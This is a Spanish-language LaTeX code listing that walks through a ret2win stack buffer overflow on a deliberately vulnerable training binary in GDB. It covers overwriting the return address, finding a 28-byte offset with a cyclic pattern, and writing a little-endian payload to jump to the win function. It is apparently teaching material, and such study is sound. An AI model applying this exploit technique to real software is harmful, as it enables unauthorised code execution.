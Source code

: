 \begin{lstlisting}[language=bash, caption=Explotación de GDB con binario ret2win]
# Se carga el binario en gdb
$ gdb ret2win.o
# Se establece el breakpoint en la funcion main
(gdb) b main
Breakpoint 1 at 0x8049209
# Se establece el breakpoint en la funcion "funcion_vulnerable"
(gdb) b funcion_vulnerable
Breakpoint 2 at 0x80491c5
# Se establece el breakpoint en la funcion "ret2win"
(gdb) b ret2win
Breakpoint 3 at 0x80491ac
# Procedemos a ejecutar el programa y alcanzamos la funcion main
(gdb) start
Breakpoint 1, 0x08049209 in main ()
# Podemos ver los stack frames usando backtrace
(gdb) backtrace
0  0x08049209 in main ()
# Continuamos hasta funcion_vulnerable
(gdb) continue
Breakpoint 2, 0x080491c5 in funcion_vulnerable ()
# Revisamos los stack frames para observar que hemos cambiado a uno nuevo
(gdb) backtrace
0  0x080491c5 in funcion_vulnerable ()
1  0x08049221 in main ()
# Continuamos instruccion por instruccion hasta que nos pida un input usando next
(gdb) next instruction
.
.
.
(gdb) next instruction
Dime algo: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
# Introducimos un texto largo, de 48 As por ejemplo
0x080491e1 in funcion_vulnerable ()
(gdb) backtrace
0  0x080491e1 in funcion_vulnerable ()
1  0x41414141 in ?? ()
2  0x41414141 in ?? ()
3  0x41414141 in ?? ()
4  0x41414141 in ?? ()
5  0x41414141 in ?? ()
6  0x00000000 in ?? ()
# Como se puede observar, se ha sustituido el EIP cambiando el punto de retorno de la funcion.
# Para obtener el exacto con precision, se puede hacer uso de herramientas automaticas, existe una online en la siguiente URL: https://wiremask.eu/tools/buffer-overflow-pattern-generator/
# Se genera un string de 48 bytes de longitud usando la herramienta (Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5)
# Se reinicia el programa usando run y aceptando
(gdb) run
# Se repiten los pasos anteriores, sin embargo, se cambian las As introducidas por el texto generado en la herramienta
(gdb) next instruction
Dime algo: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
# Revisamos el backtrace para ver el EIP
(gdb) backtrace
0  0x080491e1 in funcion_vulnerable ()
1  0x62413961 in ?? ()
2  0x31624130 in ?? ()
3  0x41326241 in ?? ()
4  0x62413362 in ?? ()
5  0x35624134 in ?? ()
6  0x00000000 in ?? ()
# Se toma la funcion de retorno del punto 1 (0x62413961) y se introduce en la herramienta usada, obteniendo un offset de 28 bytes
# Como conclusion, se debe entregar al programa 28 caracteres seguido de la funcion donde se quiera que retorne (ret2win)
# Para ello se usa info address ret2win  y devuelve 0x80491a6
# Para que el programa entienda esa direccion de memoria, se necesita pasarlo en formato bytes
# Ademas dependiendo del endianness (Forma en la que lee las variables el binario), se necesita cambiar el orden
# En este caso (y en la gran mayoria) se usa little endian, se puede revisar usando show endian, por lo cual el valor que se debe pasar al programa es (0xa6910408)
# Se puede crear el payload usando bash con el siguiente comando: echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
# Por ultimo, se carga como entrada al binario
$ echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa6\x91\x04\x08" > payload.txt
(gdb) run < payload.txt
# Continuamos
(gdb) c
(gdb) c
Continuing.
Dime algo: 


\end{lstlisting}
